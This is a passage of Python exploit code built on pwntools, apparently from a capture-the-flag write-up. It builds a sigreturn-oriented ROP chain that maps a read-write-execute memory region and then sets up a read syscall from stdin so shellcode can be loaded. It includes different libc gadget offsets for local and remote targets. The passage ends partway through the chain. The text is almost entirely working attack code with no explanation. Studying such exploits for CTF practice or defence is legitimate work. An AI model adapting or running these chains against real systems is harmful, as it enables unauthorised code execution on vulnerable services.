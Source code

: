 ```python
# Waiting for the message inviting us to send the payload...
p.recvuntil('Who are you stranger')

# Construct ROPChain
rchain = ROP([])


################################################### Call sys_mmap in use sys_rt_sigreturn
# -----------------> sys_rt_sigreturn
rchain.raw(find_gadget(['pop rax', 'ret']))
rchain.raw(0xf) # syscall id <sys_rt_sigreturn>

rchain.raw(find_gadget(['syscall', 'ret']))

# <sys_mmap> to allocate memory on a 32-bit address (for shellcode)
frame = SigreturnFrame()
frame.rax = 0x9            	# syscall number for sys_mmap
frame.rdi = ADDR_SHELLCODE  # addr
frame.rsi = 500             # len
frame.rdx = 0x7             # prot RWX
frame.r10 = 0x22            # flags MAP_PRIVATE | MAP_ANONYMOUS
frame.r8 = 	0x0            	# fd
frame.r9 = 	0x0            	# off
frame.rsp = ADDR_STACK + 0x108
frame.rbp = ADDR_STACK + 0x400
frame.rip = find_gadget(['syscall', 'ret'])
rchain.raw(bytes(frame))


#################### Call sys_read(stdin, addr_mmap, 200) => Write shellcode
# mov rax, 0
# mov rdx, 200
# mov rdi, stdin
# mov rsi, shellcode_addr
# syscall

# ------------------> rdx = 200
if IS_LOCAL:
	rchain.raw(find_gadget(['pop rbx', 'ret']))
	rchain.raw(200)

	# mov rdx, rbx; pop rbx; pop r12; pop rbp; ret
	rchain.raw(0x000b0123 + libc.address)
	rchain.raw(0x0)
	rchain.raw(0x0)
	rchain.raw(ADDR_STACK) # Conserve rbp with a value belonging to the stack

else:
	rchain.raw(find_gadget(['pop r12', 'ret']))
	rchain.raw(200)

	# mov rdx, r12; pop r12; pop r13; ret
	rchain.raw(0x000a80c8 + libc.address)
	rchain.raw(0)
	rchain.raw(0)
# ------------------>

rchain.raw(find_gadget(['pop rax', 'ret']))
rchain.raw(0) # sys_read

rchain.raw(find_gadget(['pop rdi', 'ret']))
rchain.raw(0) # fd stdin

```
